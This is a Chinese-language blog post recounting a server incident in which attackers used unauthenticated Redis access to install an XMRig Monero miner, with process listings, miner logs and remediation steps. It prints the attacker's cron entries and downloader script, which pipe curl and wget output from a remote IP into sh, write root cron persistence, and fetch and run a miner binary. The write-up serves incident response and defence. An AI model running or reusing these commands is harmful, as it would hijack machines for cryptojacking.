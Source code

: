 ```yaml
---
layout: post
title: 服务器被植入挖矿程序
background: '/assets/images/bg-post.jpg'
---
```


服务器被植入挖矿程序

## 事件简介
  服务器遭遇入侵，入侵者通过 Redis 未授权访问缺陷，植入挖矿程序

## 起因
  Redis 未授权访问缺陷可轻易导致系统被黑

## 经过

执行 `htop` 发现异常进程

![1__deployer_VM-117-230-ubuntu___var_lib_postgresql_9_3_main__ssh_.png](https://user-images.githubusercontent.com/4188624/32473483-512966e0-c32d-11e7-842e-f76b7b0558c8.png)

查看异常进程信息 `sudo ls -al /proc/25461`

```
dr-xr-xr-x   9 deployer postgres 0 Nov  6 13:15 .
dr-xr-xr-x 193 root     root     0 Aug 19 12:05 ..
dr-xr-xr-x   2 deployer postgres 0 Nov  6 13:15 attr
-rw-r--r--   1 deployer postgres 0 Nov  6 13:15 autogroup
-r--------   1 deployer postgres 0 Nov  6 13:15 auxv
-r--r--r--   1 deployer postgres 0 Nov  6 13:15 cgroup
--w-------   1 deployer postgres 0 Nov  6 13:15 clear_refs
-r--r--r--   1 deployer postgres 0 Nov  6 13:15 cmdline
-rw-r--r--   1 deployer postgres 0 Nov  6 13:15 comm
-rw-r--r--   1 deployer postgres 0 Nov  6 13:15 coredump_filter
-r--r--r--   1 deployer postgres 0 Nov  6 13:15 cpuset
lrwxrwxrwx   1 deployer postgres 0 Nov  6 13:15 cwd -> /
-r--------   1 deployer postgres 0 Nov  6 13:15 environ
lrwxrwxrwx   1 deployer postgres 0 Nov  6 13:15 exe -> /var/lib/postgresql/9.3/main/x3776026004
dr-x------   2 deployer postgres 0 Nov  6 13:15 fd
dr-x------   2 deployer postgres 0 Nov  6 13:15 fdinfo
-rw-r--r--   1 deployer postgres 0 Nov  6 13:15 gid_map
-r--------   1 deployer postgres 0 Nov  6 13:15 io
-r--r--r--   1 deployer postgres 0 Nov  6 13:15 latency
-r--r--r--   1 deployer postgres 0 Nov  6 13:15 limits
-rw-r--r--   1 deployer postgres 0 Nov  6 13:15 loginuid
dr-x------   2 deployer postgres 0 Nov  6 13:15 map_files
-r--r--r--   1 deployer postgres 0 Nov  6 13:15 maps
-rw-------   1 deployer postgres 0 Nov  6 13:15 mem
-r--r--r--   1 deployer postgres 0 Nov  6 13:15 mountinfo
-r--r--r--   1 deployer postgres 0 Nov  6 13:15 mounts
-r--------   1 deployer postgres 0 Nov  6 13:15 mountstats
dr-xr-xr-x   5 deployer postgres 0 Nov  6 13:15 net
dr-x--x--x   2 deployer postgres 0 Nov  6 13:15 ns
-r--r--r--   1 deployer postgres 0 Nov  6 13:15 numa_maps
-rw-r--r--   1 deployer postgres 0 Nov  6 13:15 oom_adj
-r--r--r--   1 deployer postgres 0 Nov  6 13:15 oom_score
-rw-r--r--   1 deployer postgres 0 Nov  6 13:15 oom_score_adj
-r--r--r--   1 deployer postgres 0 Nov  6 13:15 pagemap
-r--r--r--   1 deployer postgres 0 Nov  6 13:15 personality
-rw-r--r--   1 deployer postgres 0 Nov  6 13:15 projid_map
lrwxrwxrwx   1 deployer postgres 0 Nov  6 13:15 root -> /
-rw-r--r--   1 deployer postgres 0 Nov  6 13:15 sched
-r--r--r--   1 deployer postgres 0 Nov  6 13:15 schedstat
-r--r--r--   1 deployer postgres 0 Nov  6 13:15 sessionid
-r--r--r--   1 deployer postgres 0 Nov  6 13:15 smaps
-r--r--r--   1 deployer postgres 0 Nov  6 13:15 stack
-r--r--r--   1 deployer postgres 0 Nov  6 13:15 stat
-r--r--r--   1 deployer postgres 0 Nov  6 13:15 statm
-r--r--r--   1 deployer postgres 0 Nov  6 13:15 status
-r--r--r--   1 deployer postgres 0 Nov  6 13:15 syscall
dr-xr-xr-x  13 deployer postgres 0 Nov  6 13:15 task
-r--r--r--   1 deployer postgres 0 Nov  6 13:15 timers
-rw-r--r--   1 deployer postgres 0 Nov  6 13:15 uid_map
-r--r--r--   1 deployer postgres 0 Nov  6 13:15 wchan
```

发现异常进程`exe -> /var/lib/postgresql/9.3/main/x3776026004` 查看 pg 目录 `/var/lib/postgresql/9.3/main`

```shell
drwx------ 15 deployer postgres    4096 Oct 23 04:33 ./
drwxr-xr-x  3 deployer postgres    4096 Aug 16  2016 ../
drwx------  6 deployer postgres    4096 Aug 30 17:53 base/
drwx------  2 deployer postgres    4096 Sep  5 16:08 global/
drwx------  2 deployer postgres    4096 Aug 16  2016 pg_clog/
drwx------  4 deployer postgres    4096 Aug 16  2016 pg_multixact/
drwx------  2 deployer postgres    4096 Aug 30 18:13 pg_notify/
drwx------  2 deployer postgres    4096 Aug 16  2016 pg_serial/
drwx------  2 deployer postgres    4096 Aug 16  2016 pg_snapshots/
drwx------  2 deployer postgres    4096 Aug 30 18:13 pg_stat/
drwx------  2 deployer postgres    4096 Nov  6 12:19 pg_stat_tmp/
drwx------  2 deployer postgres    4096 Aug 16  2016 pg_subtrans/
drwx------  2 deployer postgres    4096 Aug 16  2016 pg_tblspc/
drwx------  2 deployer postgres    4096 Aug 16  2016 pg_twophase/
-rw-------  1 deployer postgres       4 Aug 16  2016 PG_VERSION
drwx------  3 deployer postgres    4096 Aug 16  2016 pg_xlog/
-rw-------  1 deployer postgres     133 Aug 30 18:13 postmaster.opts
-rw-------  1 deployer postgres      93 Aug 30 18:13 postmaster.pid
-rwxrwxrwx  1 deployer postgres   14480 Oct 13 10:06 ps3767604655*
-rw-r--r--  1 deployer postgres   15360 Oct 12 03:58 vcredist_x64_1130.dll
-rw-r--r--  1 deployer postgres  100352 Oct 13 04:52 vcredist_x64_2191.dll
-rw-r--r--  1 deployer postgres   15360 Oct 12 08:50 vcredist_x64_5569.dll
-rw-r--r--  1 deployer postgres  100352 Oct 23 04:33 vcredist_x64_6375.dll
-rw-r--r--  1 deployer postgres  100352 Oct 16 05:12 vcredist_x64_8544.dll
-rw-r--r--  1 deployer postgres   11264 Oct 12 03:58 vcredist_x86_1071.dll
-rw-r--r--  1 deployer postgres   11264 Oct 12 08:50 vcredist_x86_5380.dll
-rw-r--r--  1 deployer postgres   81408 Oct 23 04:33 vcredist_x86_7537.dll
-rw-r--r--  1 deployer postgres   81408 Oct 13 04:52 vcredist_x86_9105.dll
-rw-r--r--  1 deployer postgres   81408 Oct 16 05:12 vcredist_x86_928.dll
-rwxrwxrwx  1 deployer postgres  496464 Oct 13 10:06 x3776026004*
-rw-------  1 deployer postgres 4676439 Nov  6 12:19 xmr.txt
```

**恶意程序（`x3776026004`）植入时间为 2017年10月13号10：06分**

查看 `xmr.txt` 文件

```shell
[2017-10-13 10:06:31]  * VERSIONS:     XMRig/2.3.1-dev libuv/1.9.1 gcc/6.3.0
[2017-10-13 10:06:31]  * HUGE PAGES:   available, disabled
[2017-10-13 10:06:31]  * CPU:          Intel(R) Xeon(R) CPU E5-26xx v3 (1) x64 AES-NI
[2017-10-13 10:06:31]  * CPU L2/L3:    24.0 MB/0.0 MB
[2017-10-13 10:06:31]  * THREADS:      6, cryptonight, av=1, donate=0%
[2017-10-13 10:06:31]  * POOL #1:      xmr.crypto-pool.fr:80
[2017-10-13 10:06:31]  * COMMANDS:     'h' hashrate, 'p' pause, 'r' resume
[2017-10-13 10:06:31] use pool xmr.crypto-pool.fr:80 163.172.226.114
[2017-10-13 10:06:31] new job from xmr.crypto-pool.fr:80 diff 50000
[2017-10-13 10:06:37] new job from xmr.crypto-pool.fr:80 diff 50000
[2017-10-13 10:06:47] new job from xmr.crypto-pool.fr:80 diff 50000
```

访问地址 `xmr.crypto-pool.fr`

![xmr_crypto-pool_fr](https://user-images.githubusercontent.com/4188624/32473858-42dc9ed4-c32f-11e7-9e9c-822021dc38f4.png)

**这个恶意程序为一个是挖矿程序**

检查 `/var/spool/cron/crontabs/`
发现有定时任务执行

```shell
*/1 * * * * curl -L http://218.248.40.228:8443/i.sh | sh
*/1 * * * * wget -q http://218.248.40.228:8443/i.sh -O - | sh
```

恶意代码如下

```shell
export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin
echo "*/5 * * * * curl -fsSL http://218.248.40.228:8443/i.sh | sh" > /var/spool/cron/root
echo "*/5 * * * * wget -q -O- http://218.248.40.228:8443/i.sh | sh" >> /var/spool/cron/root
mkdir -p /var/spool/cron/crontabs
echo "*/5 * * * * curl -fsSL http://218.248.40.228:8443/i.sh | sh" > /var/spool/cron/crontabs/root
echo "*/5 * * * * wget -q -O- http://218.248.40.228:8443/i.sh | sh" >> /var/spool/cron/crontabs/root
if [ ! -f "/tmp/ddg.2020" ]; then
    curl -fsSL http://218.248.40.228:8443/2020/ddg.$(uname -m) -o /tmp/ddg.2020
fi
if [ ! -f "/tmp/ddg.2020" ]; then
    wget -q http://218.248.40.228:8443/2020/ddg.$(uname -m) -O /tmp/ddg.2020
fi
chmod +x /tmp/ddg.2020 && /tmp/ddg.2020
ps auxf | grep -v grep | grep Circle_MI | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep get.bi-chi.com | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep /boot/efi/ | awk '{print $2}' | xargs kill
#ps auxf | grep -v grep | grep ddg.2006 | awk '{print $2}' | kill
#ps auxf | grep -v grep | grep ddg.2010 | awk '{print $2}' | kill
```

## 解决方法
  1. 关闭访问挖矿服务器的访问 `iptables -A INPUT -s xmr.crypto-pool.fr -j DROP` and `iptables -A OUTPUT -d xmr.crypto-pool.fr -j DROP`
  2. 检查 `crontab` 中的定时任务，删除恶意定时任务
  3. 杀掉挖矿程序，并清除恶意程序
  3. 配置 `bind` 选项, 限定可以连接 `Redis` 服务器的 `IP`, 并修改 `redis` 的默认端口6379, 配置rename-command 配置项
  4. 查找 `/tmp` 目录是否有发现可以文件，找到并且清除
  5. 打开 `~/.ssh/authorized_keys`, 删除你不认识的账号
  6. 所有操作完成之后，记得再次使用 `htop` 观察一段时间，确保挖矿守护进程已经干掉，挖矿程序没有重新启动服务

## 参考链接

* http://www.chinaz.com/server/2015/1112/469670.shtml
* http://53cto.blog.51cto.com/9899631/1826989